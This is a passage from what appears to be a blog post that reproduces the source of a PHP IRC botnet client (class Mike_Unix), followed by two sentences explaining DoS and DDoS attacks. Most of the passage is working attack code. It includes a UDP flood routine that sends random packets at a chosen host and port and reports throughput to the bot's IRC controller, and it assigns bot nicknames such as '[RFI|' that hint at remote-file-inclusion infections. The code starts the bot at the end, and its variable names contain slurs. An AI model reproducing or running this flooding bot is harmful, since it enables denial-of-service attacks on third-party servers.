            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsg - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function udpflood4( $host, $packetsize, $time, $port )
        {
            $udpmsg = $this-&gt;messages['udpmsg'];
            $leetprefixwhite = $this-&gt;config['leetprefixwhite'];
            $leetsuffixwhite = $this-&gt;config['leetsuffixwhite'];
            $red = $this-&gt;config['yellow'];
            $blue = $this-&gt;config['yellow'];
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$udpmsg Started On $leetprefixwhite$red $host $leetsuffixwhite for $leetprefixwhite$red $time Seconds $leetsuffixwhite$red With $leetprefixwhite$red $packetsize Packets $leetsuffixwhite$red On port $leetprefixwhite$red $port $leetsuffixwhite" );
            $packet = "";
            for($i=0;$i&lt;$packetsize;$i++) { $packet .= chr(mt_rand(1,256)); }
            $timei = time();
            $i = 0;
            while(time()-$timei &lt; $time)
            {
                $fp=fsockopen("udp://".$host,$port,$e,$s,5);
                fwrite($fp,$packet);
                fclose($fp);
                $i++;
            }
            $env = $i * $packetsize;
            $env = $env / 1048576;
            $vel = $env / $time;
            $vel = round($vel);
            $env = round($env);
            $fag = "$udpmsg - Sent Total $leetprefixwhite$red $env Megabytes $leetsuffixwhite$red With A Speed Of $leetprefixwhite$red $vel MegaBytes/Second $leetsuffixwhite On Port $leetprefixwhite$red $port $leetsuffixwhite";
            $this-&gt;privmsg( $this-&gt;ffff_you( ),"$fag$fag2" );
            $this-&gt;ex('echo 1 &gt;&gt; cache.dat');
        }
        function send($msg)
        {
            fwrite($this-&gt;conn,"$msg\r\n");
        }
        function join($chan,$key=NULL)
        {
            $this-&gt;send("JOIN $chan $key");
        }
        function privmsg($to,$msg)
        {
            $this-&gt;send("PRIVMSG $to :$msg");
        }
        function notice($to,$msg)
        {
            $this-&gt;send("NOTICE $to :$msg");
        }
         function set_nick()
         {
            $prefix .= "[RFI|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config[ 'nickform' ], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
         function busk_nick()
         {
            $prefix .= "[RooT|LinuX|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config[ 'nickform2' ], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
         function nzm_nick()
         {
            $prefix .= "[USA|";
            $random_number = "";
            for( $i = 0; $i &lt; $this-&gt;config[ 'maxrand' ]; $i++ )
            {
                $random_number .= mt_rand( 0, 9 );
            }
            $ffffu = "$this-&gt;config[ 'prfix' ]";
            $this-&gt;nick = sprintf( $prefix.$this-&gt;config['prfix'], $random_number );
            $this-&gt;send("NICK ".$this-&gt;nick);
         }
        function parse_url_s( $url )
        {
            $URLpcs = ( parse_url( $url ) );
            $PathPcs = explode( "/", $URLpcs['path'] );
            $URLpcs['file'] = end( $PathPcs );
            unset( $PathPcs[ key( $PathPcs ) ] );
            $URLpcs['dir'] = implode("/",$PathPcs);
            $fileext = explode( '.', $URLpcs['file'] );
            if(count($fileext))
            {
                $URLpcs['file_ext'] = $fileext[ count( $fileext ) - 1 ];
            }
            return ($URLpcs);
        }
    }
    $bot = new Mike_Unix;
    $bot-&gt;start();
?>
{% endhighlight %}

A DoS attack is made by only one person (or computer), while a DDoS attack is made by two or more.  
Generally a denial of service attack involves sending many &#8211; essentially meaningless &#8211; requests to a server, so the server cannot respond to legitimate queries, either within a reasonable timeframe, or even not at all.

 [1]: http://en.wikipedia.org/wiki/Denial-of-service_attack "DDoS"